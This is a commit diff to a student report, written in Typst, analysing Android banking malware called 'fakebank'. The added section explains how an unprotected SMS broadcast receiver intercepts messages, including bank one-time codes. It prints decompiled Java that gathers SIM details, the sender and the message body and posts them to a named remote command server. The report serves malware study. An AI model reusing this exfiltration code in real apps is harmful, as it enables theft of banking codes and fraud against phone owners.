

Before and after one commit to Mugna46/DSS_project, a Typst document (doc/report_DSS.typ): part of page 5 of 5 before the commit and two parts of pages 5 and 6 of 6 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. The pictures show the PDF file doc/report_DSS.pdf that the author committed with the source.

Commit message:
feat(report): fakebank manifest analysis

````diff
--- a/doc/report_DSS.typ
+++ b/doc/report_DSS.typ
@@ -102,2 +105,5 @@ Moreover it can write, send and read SMS messages. This could potentially allow
 
-=== Manifest analysis and Receiver
+=== Manifest Analysis and Receivers
+#v(1em)
+#columns(2)[
+  #figure(
@@ -103,0 +123,28 @@ Moreover it can write, send and read SMS messages. This could potentially allow
+#label("receivers")
+]
+#v(1em)
+The manifest shows that a *Broadcast Receiver* is not protected (see @manifest) the Malware intercept
+all the SMS and leak in this case the OTP codes used by the banks.
+
+
+The *Broadcast Receiver* is implemented in the package `com.example.kbtest.smsReceiver` (see @receivers).
+#v(0.5em)
+We listed here the most important line of the package `smsReceiver`:
+```Java
+this.params2.add(new BasicNameValuePair("sim_no", simNo));
+this.params2.add(new BasicNameValuePair("tel", tel.getSimOperatorName()));
+this.params2.add(new BasicNameValuePair("thread_id", "0"));
+this.params2.add(new BasicNameValuePair("address", smsMessage.getOriginatingAddress()));
+SimpleDateFormat df2 = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
+this.params2.add(new BasicNameValuePair("datetime", dateString2));
+this.params2.add(new BasicNameValuePair("bady", smsMessage.getDisplayMessageBody()));
+//.....
+HttpClient httpclient = new DefaultHttpClient();
+HttpPost httppost = new HttpPost(smsReceiver.this.update_url);
+HttpResponse response = httpclient.execute(httppost);
+```
+#v(0.5em)
+The package takes all the SIM information, the emitter and the body of the received message. Then sends all the information collected to a remote `URL` (`http://banking1.kakatt.net:9998/send_product.php`).
+Anyway we can see, using tools like `curl` or `nslookup`, that the domain is not reachable anymore.
+
+=== Activities
````
Also changed, not shown: doc/frontpage.typ (+2 -2 lines), doc/report_DSS.pdf, doc/report_DSS.typ (18 more changed lines).
